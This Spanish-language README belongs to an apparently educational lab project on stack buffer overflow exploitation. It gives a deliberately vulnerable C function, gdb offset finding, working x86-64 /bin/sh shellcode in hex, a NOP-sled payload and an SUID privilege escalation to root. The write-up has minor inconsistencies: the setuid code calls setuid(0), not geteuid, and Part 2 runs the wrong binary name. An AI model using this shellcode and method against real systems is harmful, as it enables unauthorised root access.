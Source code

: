 # Buffer Overflow Exploitation

Este proyecto muestra cómo explotar una vulnerabilidad de tipo **stack buffer overflow** para ejecutar código arbitrario, obteniendo una shell local y escalando privilegios con el bit **SUID** activado.

---

## Contenido del proyecto

- `vulnerable.c`: binario vulnerable que copia la entrada del usuario a un buffer sin control de límites.
- `exploit.c`: código que construye un payload para ejecutar una shell local (`/bin/sh`).
- `exploit_suid.c`: versión del exploit adaptada para binarios con el bit SUID activado.
- `exploit.asm`: shellcode necesario para lanzar `/bin/sh` sin escalada de privilegios.
- `exploit_suid.asm`: shellcode que primero ejecuta `setuid(geteuid())` y luego lanza la shell.

---

## Parte 1: Ejecución de shell local

### Análisis del binario vulnerable

El binario vulnerable contiene el siguiente código:

```c
void function(char *input) {
    char buffer[64];
    strcpy(buffer, input); // ¡Sin comprobación de límites!
}
```

La vulnerabilidad está en el uso de `strcpy`, que copia sin verificar tamaño.

Esto permite que un atacante sobrescriba la dirección de retorno (`rip`) en la pila
al introducir más de 64 bytes, redirigiendo el flujo de ejecución hacia código 
arbitrario como una shellcode.

---

### Cálculo del offset

Para determinar el desplazamiento hasta `rip`, iniciamos GDB:

```bash
gdb ./vulnerable
```

Y colocamos un breakpoint justo después del `strcpy` y ejecutamos con diferentes longitudes (mayor que 64 y multiplo de 8) hasta dar con la que sobreescriba el `rip`, en este caso es 80:

```bash
(gdb) b *main+36
(gdb) run $(python3 -c 'print("A"*80)')
```

Cuando el programa se detenga, usamos el siguiente comando para ver el contenido del `rip`:

```bash
(gdb) info frame
```

Veremos `rip = 0x4141414141414141`, lo que indica que las 'A' lo han sobrescrito.
Así confirmamos que el offset es de 72 bytes (80 - 8 de dirección de retorno).

Tambien se puede visualizar la pila con:

```bash
(gdb) x/20x $rsp + 16
0x7fffffffef7d: 41414141 ...
```

---

### Dirección de retorno al buffer

Para ejecutar shellcode, debemos redirigir el flujo a la dirección del buffer.
Es importante obtener esta dirección desde `gdb ./exploit` y no desde `gdb ./vulnerable`.

Esto se debe a que el binario `exploit` reserva y posiciona el buffer en memoria,
y la dirección cambia dependiendo de qué ejecutable lo contenga.

```bash
gdb ./exploit
```

Coloca breakpoints al inicio del código para inspeccionarlo y ejecútalo:

```bash
(gdb) b main
(gdb) r
```

Luego, avanza paso a paso con `next` (`n`) hasta entrar en la ejecución de `vulnerable.c`, donde tendrás otro breakpoint por comenzar el `main` de ese programa.

En ese punto deberías de comprobar que se han pasado 2 argumentos. El segundo argumento muestra la direccion de inicio del buffer:

```bash
(gdb) print argc
$1 = 2
(gdb) print argv[1]
$2 = 0x7fffffffef7d ...
```

Usaremos esa dirección como la nueva dirección de retorno al final del payload.

---

### Shellcode utilizada

La shellcode realiza una llamada directa a `execve("/bin/sh", NULL, NULL)`.
El formato hexadecimal se ha obtenido transformándo el codigo ensamblador `exploit.asm` de la siguiente manera:

```bash
nasm -f elf64 exploit.asm -o exploit_shellcode.o
ld exploit_shellcode.o -o exploit_shellcode
objdump -d exploit_shellcode | grep '[0-9a-f]:' | \
awk '{for(i=2;i<NF;i++) if($i ~ /^[0-9a-f]{2}$/) printf "\\x%s", $i; print ""}' | \
tr -d '\n'; echo
```

Así obtenemos la shellcode en formato hexadecimal:

```asm
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```

---

### Estructura del payload

El payload está compuesto por:

1. NOP sled: una secuencia de bytes `\x90` para aumentar tolerancia al salto.
2. Shellcode: las instrucciones que ejecutan `/bin/sh`.
3. Dirección de retorno: apunta al NOP sled o directamente al shellcode.

Esta estructura es robusta, ya que incluso si el salto no es exacto,
caerá en la zona NOP y terminará ejecutando la shellcode igualmente.

---

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -fno-pic -g -o vulnerable vulnerable.c
gcc -o exploit exploit.c
```

---

### Ejecucion

```bash
./exploit
$
```

A partir de ahora, tenemos acceso a una terminal de la victima, que se puede comprobar haciendo:

```bash
$ whoami
user
```

---

## Parte 2: Explotación de binario con bit SUID

En esta fase se explota un binario con el bit SUID activado (propiedad de root), lo que permite heredar sus privilegios al ejecutar la shellcode.

### Preparación del binario

```bash
sudo chown root:root vulnerable
sudo chmod u+s vulnerable
```

---

### Shellcode extendido

La shellcode utilizada añade una llamada a `setuid(geteuid())` justo antes de ejecutar `/bin/sh`.
Esto garantiza que la shell heredada mantenga los privilegios elevados otorgados por el bit SUID.
Para obtener el formato hexadecimal se ha seguido el mismo proceso anterior, pero con el fichero `exploit_suid.asm`:

```bash
nasm -f elf64 exploit_suid.asm -o exploit_shellcode_suid.o
ld exploit_shellcode_suid.o -o exploit_shellcode_suid
objdump -d exploit_shellcode_suid | grep '[0-9a-f]:' | \
awk '{for(i=2;i<NF;i++) if($i ~ /^[0-9a-f]{2}$/) printf "\\x%s", $i; print ""}' | \
tr -d '\n'; echo
```

Así obtenemos la shellcode en formato hexadecimal:

```asm
// -- setuid(geteuid()) --
"\x48\x31\xff"                              // xor    rdi, rdi
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x69"                                  // mov    al, 0x69 (setuid)
"\x0f\x05"                                  // syscall
// -- execve("/bin/sh", NULL, NULL)         // Ya utilizada en la parte 1
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```

---

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -fno-pic -g -o vulnerable vulnerable.c
gcc -o exploit_suid exploit_suid.c
```

---

### Ejecución

```bash
./exploit
#
```

A partir de ahora tenemos acceso a una terminal de la victima con permisos de root, que se puede comprobar haciendo:

```bash
# whoami
root
```

---

## Autor

**Julen Casajús**  
[GitHub Profile](https://github.com/JulenCasajus)
